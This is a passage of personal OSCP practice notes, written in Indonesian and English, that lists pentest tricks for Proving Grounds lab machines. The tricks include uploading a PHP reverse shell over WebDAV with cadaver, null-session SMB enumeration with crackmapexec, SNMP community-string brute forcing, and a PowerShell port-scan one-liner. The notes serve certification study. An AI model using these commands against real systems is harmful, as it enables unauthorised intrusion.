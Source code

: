 10. Kalo ada port 80, usually Windows (tanpa webdav keliatan). Atau specifically ada webdav. EXPLOIT IT WITH `cadaver`, langsung upload shell ke webnya.
```bash
cadaver http://192.168.167.122
put /opt/php-reverse-shell-windows.php
```
11. Interesting keywords LDAP, "AdmPwd"
12. When stuck, generate wordlists (https://github.com/Mebus/cupp, OSCP Practice 67 - Thor).
13. Webmin privilege escalation 
```cmd
[OSCP Practice 67] Proving Grounds-Thor
```
14. Always try `crackmapexec` kalo ada SMB or LDAP di Linux or Windows to test connection. Jgn rely ke `smbclient` aja.
```bash
crackmapexec smb 192.168.167.240 -U '' -P '' --shares
```
15. Freeswitch + Cassandra Exploit
```cmd
[OSCP Practice Series 69] Proving Grounds-Clue
```
16. EXPLOITNG REDIS and Shared Object (.so) privilege escalation.
```cmd
[OSCP Practice Series 72] Proving Grounds-Sybaris
```
17. Wordpress SELALU COBA aggressive plugin detection
```cmd
wpscan --update --url http://192.168.120.66/ --enumerate ap --plugins-detection aggressive
[OSCP Practice Series 73] Proving Grounds-Maria
```

18. PYTHON DECOMPILE (pyinstxtractor.py + Uncompyle6)
```cmd
[OSCP Practice Series 76] Proving Grounds - KeyVault
```

19. XXE, preg_replace(), tcpdump capabilities, and mosquitto_pub (MQTT) exploitation
```cmd
[OSCP Practice Series 77] Proving Grounds — Glider
https://medium.com/@ardian.danny/oscp-practice-series-77-proving-grounds-glider-7048e51a26e8
```

20. Automated Powershell Portscanning (Mungkin guna buat scan mesin pivot 1) [PENTING BUAT AD] 
```cmd
Windows:
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $_)) "TCP port $_ is open"} 2>$null
```

21. SNMPv1, and SNMPv2 is VULNERABLE TO BRUTEFORCE ATTACKS
>> INI KEMISS PAS EXAM, SNMP ITU BISA DIBRUTE COMMUNITY STRINGNYA, GK CUMA PUBLIC,PRIVATE, DAN MANAGER. ADA BNYK.

https://nmap.org/nsedoc/scripts/snmp-brute.html
```cmd
nmap -sU --script snmp-brute <target> --script-args snmp-brute.communitiesdb=/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt

ATAU PAKE AUTORECON

autorecon <target>

ATAU PAKE onesixtyone (Yang delbert pake)

onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-
strings-onesixtyone.txt -dd 192.168.95.110
```
```cmd (look hacktrickz or oscp module)
snmpwalk -c public -v1 -t 10 192.168.187.23 >> KALO GK SPECIFY MIB, ENUM SEMUA
snmpwalk -c public -v1 -t 10 192.168.187.151 -Oa
```
